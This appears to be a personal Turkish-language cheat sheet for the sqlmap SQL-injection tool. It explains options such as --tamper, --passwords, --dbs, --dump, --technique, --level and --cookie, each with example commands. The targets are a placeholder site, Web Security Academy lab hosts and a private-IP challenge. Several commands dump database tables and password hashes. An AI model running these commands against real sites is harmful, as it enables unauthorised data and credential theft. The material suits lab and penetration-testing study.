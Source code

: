 [[SQLMap]]

https://github.com/sqlmapproject/sqlmap/wiki/usage
--tamper  :
--
tamper scriptleri var girdiyi ona göre değiştirip o taktiği uyguluyor mesela base64encode.py base64 leyip gönderiyor 
diğer tamperlar : https://github.com/sqlmapproject/sqlmap/tree/master/tamper

```bash title:"tamper key"
python sqlmap.py --tamper=base64encode
```

--passwords : 
--
Hashlenmiş veya düz text olarak saklanmış şifreleri almak için

```bash title:'--passwords kullanımı'
sqlmap -u "http://hedef-site.com/vulnerable_page?id=1" --passwords
```

--columns :
--
Belirili bir tablo için o tabloya ait verileri listeler 

```bash title:'belirli bir tablo'
sqlmap -u "http://hedef-site.com/vulnerable_page?id=1" --columns -D veritabani_adi -T tablo_adi
```
**`-D`**: Veritabanı adı
**`-T`**: Tablo adı

--dbs :
--
database bilgilerini almak için kullanılır 

```bash
sqlmap -u "http://hedef-site.com/vulnerable_page?id=1" --dbs
```

--dump : 
--
database belirtilen içerikleri getirir belirtmediysen hepsini

```bash 
python sqlmap.py -u "https://0a4300e404ee84788730f4f600c70072.web-security-academy.net/filter?category=Gifts" --technique=U -D public -T users_ybkirg  --dump -v 3
```

--technique (BEUSTQ):  
--
**--technique=U**
- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries

--level (1-5): 
--
HTTP cookie testleri 2. seviyeden sonra 
HTTP user-agent/Referrer headers testleri 3. seviyeden sonra 

| Level         | Desc.                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| `1` (default) | A limited number of tests/requests: `GET` and `POST` parameters will be tested by default |
| `2`           | Test cookies (HTTP cookie header values)                                                  |
| `3`           | Test cookies plus HTTP `User-Agent/Referer` headers’ values                               |
| `4`           | As above, plus null values in parameters and other bugs                                   |
| `5`           | An extensive list of tests with an input file for payloads and boundaries                 |

--tables :
--
database deki tabloları enumerate etmeye yarar 


--cookie :
--
cookielerin kullanılmasını istiyorsan belirtebilirsin 
level düzeyinin 2 den fazla olması lazım cookielerin kullanılması için 
```bash
python sqlmap.py -u "https://0a2d003a03431aac84a428cc00540064.web-security-academy.net" --cookie "TrackingId=asdasd" --dbs --level 2
```

--second-url : 
--
URL'e uygulandıktan sonra ziyaret edilmesi gereken URL i belirtir 

```bash
sqlmap --tamper tamper/so-tamper.py 
--url http://10.10.1.134:5000/challenge4/signup 
--data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username 
--dbms=sqlite 
--technique=U 
--no-cast -T users --dump
```
